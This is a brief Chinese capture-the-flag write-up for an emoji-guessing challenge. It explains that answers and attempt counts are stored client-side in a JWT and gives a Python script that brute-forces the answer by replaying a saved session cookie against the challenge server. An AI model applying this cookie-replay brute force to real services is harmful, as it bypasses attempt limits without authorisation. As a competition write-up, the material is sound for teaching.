 事实上第二题最简单，因为它把整个服务端答案都存进jwt了，base64 decode一下直接交上去就好。

第一题就直接爆破。第三题，尝试次数也是存进jwt里的，复用之前的cookie也就可以爆破。

```python
import requests
import time

with open('all_emojis.txt') as f:
    emojis = list(f.read())

def give_try(s):
    r = requests.get('https://prob14.geekgame.pku.edu.cn/level1',
                     params={'guess': s})
    r = r.content.decode('utf-8')
    t = r[r.find('results.push') + 14:]
    t = t[:t.find('"')]
    print(t)
    assert len(t) == 64
    return t

def get_sess():
    r = requests.get('https://prob14.geekgame.pku.edu.cn/level3')
    print(r.cookies['PLAY_SESSION'])
    return r.cookies['PLAY_SESSION']

def give_try3(s, sess):
    r = requests.get('https://prob14.geekgame.pku.edu.cn/level3',
                     params={'guess': s},
                     cookies={'PLAY_SESSION': sess})
    r = r.content.decode('utf-8')
    print(r)
    t = r[r.find('results.push') + 14:]
    t = t[:t.find('"')]
    print(t)
    assert len(t) == 64
    return t

sess = get_sess()
#exit()

result = [None] * 64
for e in emojis:
    print('trying ', e) #, 'cur', ''.join(str(s) for s in result)
    time.sleep(0.1)
    t = give_try3(''.join(e if r is None else r for r in result), sess)
    for i in range(64):
        if result[i] is None and t[i] == '🟩':
            result[i] = e

print(''.join(str(s) for s in result))
```
